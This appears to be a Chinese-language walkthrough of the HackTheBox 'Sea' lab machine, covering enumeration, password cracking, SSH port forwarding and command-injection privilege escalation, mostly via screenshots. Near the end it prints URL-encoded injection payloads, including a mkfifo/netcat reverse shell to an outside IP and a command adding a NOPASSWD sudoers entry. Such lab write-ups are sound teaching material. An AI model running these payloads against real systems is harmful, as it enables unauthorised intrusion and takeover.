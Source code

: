 ```yaml
---
{"dg-publish":true,"permalink":"/hackthebox 靶场/htb 靶场 sea/","tags":["#hackthebox","靶场","oscp"]}
---
```



 ![image.png](https://s2.loli.net/2025/06/14/VSqv4MFmpf3ls8D.png)
[[思/htb 靶场 sea 思路 1\|htb 靶场 sea 思路 1]]
## nmap 扫描端口
![image.png](https://s2.loli.net/2025/06/14/13JhH7tMsGjQuZX.png)

存在 ssh 端口和 80 web 服务端口

## web 服务信息收集
![image.png](https://s2.loli.net/2025/06/14/VrIei17zydRPwJl.png)


这里需要绑一个域名(sea.htb)

![image.png](https://s2.loli.net/2025/06/14/wlMVFoKRpXPZOJg.png)

有个可以点击的地方，点进去看看

![image.png](https://s2.loli.net/2025/06/14/jaCcqsdGPt56KlO.png)

推断可能是 sql 注入或者 xss 之类的

输入单引号，双引号都是显示以下的提示，这就排除 sql 注入了

![image.png](https://s2.loli.net/2025/06/14/qHdFzGNteS9Vrcj.png)

换个地方找找看

枚举一下网站的目录

![image.png](https://s2.loli.net/2025/06/14/DBL7IAxpSN8it41.png)

会发现扫出一个 theme 目录，还有插件目录。

访问/themes/bike/version

![image.png](https://s2.loli.net/2025/06/14/pu2iQ6UH5wODztm.png)

找到一个版本号，搜搜有漏洞吗

![image.png](https://s2.loli.net/2025/06/14/6CvEJTKIBW9ZLgd.png)


## 漏洞利用

![image.png](https://s2.loli.net/2025/06/14/oIe5p7REui8c9Vd.png)


![image.png](https://s2.loli.net/2025/06/14/FOm7Qfr5DPRkJIM.png)

![image.png](https://s2.loli.net/2025/06/14/UjrL8yG53QgfI9w.png)


![image.png](https://s2.loli.net/2025/06/14/bfFYNxmWpgud1Ry.png)



![](https://s2.loli.net/2025/06/14/b2XKYZTvWdBxPV1.png)



## 提权
反弹 shell 成功，准备提权。用 linpeas 进行信息收集

![image.png](https://s2.loli.net/2025/06/14/c14SV5rdzeKqAN9.png)

有个 8080 端口

![image.png](https://s2.loli.net/2025/06/14/POJm1KHy9cj36q2.png)

找到 user. txt 。但问题是目前还是 www-data用户，还没法进入 amay 目录

![image.png](https://s2.loli.net/2025/06/14/C9fLyEGVboWdxBe.png)

找到一个 messages 目录，应该也是有作用的（实际上并没有作用）

只能慢慢寻找

![image.png](https://s2.loli.net/2025/06/14/VeTxuwciMgtKoZr.png)

在网站的目录中找到一串密码。拉到 john 进行破解一下

但一直报错
![image.png](https://s2.loli.net/2025/06/14/IpFlXkYZzmaP2S6.png)

怀疑是里面的斜杠的问题，删掉之后能成功破解

![image.png](https://s2.loli.net/2025/06/14/qRliMfGDvIWHyQd.png)

知道有个密码，但不知道如何使用，就用来试试是不是/home 中两个用户的密码

![image.png](https://s2.loli.net/2025/06/14/kXt1z2CyVARpGfH.png)

成功登录 amay 用户
![image.png](https://s2.loli.net/2025/06/14/FpO3ERCzyusVUi8.png)

并无东西

![image.png](https://s2.loli.net/2025/06/14/kGYhrz8MuXgeRQc.png)

第一个 flag 到手

基于刚刚在反弹 shell 中找了这么久没点东西，只能用 ssh 端口转发，转发 8080 端口

![image.png](https://s2.loli.net/2025/06/14/4CTsfnOAIdloLGe.png)

真有东西

![image.png](https://s2.loli.net/2025/06/14/zhmQWfe73lbCj9y.png)

是个执行命令的界面
![image.png](https://s2.loli.net/2025/06/14/DKekE4i9CZsXcAJ.png)

bp 抓包

![image.png](https://s2.loli.net/2025/06/14/e8QBd4gJfMkTcwq.png)

能查看到/etc/passwd
![image.png](https://s2.loli.net/2025/06/14/rWB6UsX9PRdVokT.png)

既然是命令注入尝试能不能同时执行命令

![image.png](https://s2.loli.net/2025/06/14/suetKYBf4pC2XIA.png)

被拦住了

![image.png](https://s2.loli.net/2025/06/14/qQmhxv4Ic76gLen.png)


用了这招来绕过
```
用+号来代替空格

其实说白了就是在bp中使用加密
/etc/passwd+/etc/hosts+#

/etc/passwd+%26%26+id+#
/etc/passwd && id #
```


![](https://s2.loli.net/2025/06/14/Ojs3hI1fH9tlecL.png)


![image.png](https://s2.loli.net/2025/06/14/Tc3798yzKjpqZoN.png)

成功

```
反弹shell
/etc/passwd+%26%26+rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|bash+-i+2>%261|nc+10.10.16.2+5555+>/tmp/f+%23

修改权限
/etc/passwd+%26%26+echo+"amay+ALL=(ALL)+NOPASSWD:+ALL"+>+/etc/sudoers.d/amay+#
```

反弹 shell 一下子就自动退出了
![image.png](https://s2.loli.net/2025/06/14/kDUXzynbNjSQt1I.png)

修改权限
![image.png](https://s2.loli.net/2025/06/14/5BMY9SCxeW2jQfI.png)


![image.png](https://s2.loli.net/2025/06/14/CFoV4L9gdmG8Puj.png)


![image.png](https://s2.loli.net/2025/06/14/VdNmaSu7JPo9ljH.png)


![image.png](https://s2.loli.net/2025/06/14/L9rztChApJyUP8e.png)
